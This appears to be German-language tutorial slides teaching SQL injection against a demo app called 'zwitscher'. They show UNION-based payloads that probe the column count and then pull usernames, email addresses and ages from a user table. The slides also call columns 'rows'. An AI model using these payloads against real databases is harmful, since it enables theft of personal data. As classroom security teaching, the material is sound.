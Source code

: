 ## Was sollen wir tun? Durchprobieren!

Eingabe: <span style="color:crimson">#dog' UNION SELECT 1; --</span>

```php
$sql = "SELECT *
        FROM zwitscher
        WHERE hashtag = '#dog' UNION SELECT 1; -- ';
```

[Code ausführen](../zwitscher/?search=%27+UNION+SELECT+1%3B+--+)

:(

--

## Was sollen wir tun? Durchprobieren!

Eingabe: <span style="color:crimson">#dog' UNION SELECT 1, 2; --</span>

```php
$sql = "SELECT * 
        FROM zwitscher
        WHERE hashtag = '#dog' UNION SELECT 1, 2; -- ';
```

[Code ausführen](../zwitscher/?search=%27+UNION+SELECT+1%2C+2%3B+--+)

:(

--

## Was sollen wir tun? Durchprobieren!

Eingabe: <span style="color:crimson">#dog' UNION SELECT 1, 2, 3; --</span>

```php
$sql = "SELECT *
        FROM zwitscher
        WHERE hashtag = '#dog' UNION SELECT 1, 2, 3; -- ';
```

[Code ausführen](../zwitscher/?search=%27+UNION+SELECT+1%2C+2%2C+3%3B+--+)

:)

---

## Dritter Versuch

- Wie viele Zeilen sind in der Ergebnis-Tabelle der ersten Abfrage?
- Drei Zeilen!
- Wähle drei Zeilen: *username*, *mail*, *age*
<br />
<br />

Eingabe: <span style="color:crimson">#dog' UNION SELECT username, mail, age FROM user; --</span>
